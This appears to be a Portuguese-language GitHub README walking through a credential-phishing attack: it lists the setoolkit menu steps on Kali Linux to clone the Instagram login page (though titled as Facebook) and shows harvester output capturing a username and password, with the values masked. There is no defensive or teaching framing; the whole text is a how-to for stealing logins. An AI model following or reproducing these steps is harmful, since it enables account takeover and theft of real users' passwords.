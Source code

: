 # Phishing para captura de senhas do Facebook

### Ferramentas Utilizadas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.instagram.com

### Resutados
                                        \/\/\/\/\/\/\/\/
POSSIBLE USERNAME FIELD FOUND: username=XXXXXXX@XXXXXXXX                                                                                         
[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.

[*] WE GOT A HIT! Printing the output:                                          \/\/\/
POSSIBLE PASSWORD FIELD FOUND: enc_password=#PWD_INSTAGRAM_BROWSER:0:1734392052:XXXXXXX   

![Alt text](./passwd.png "Optional title")
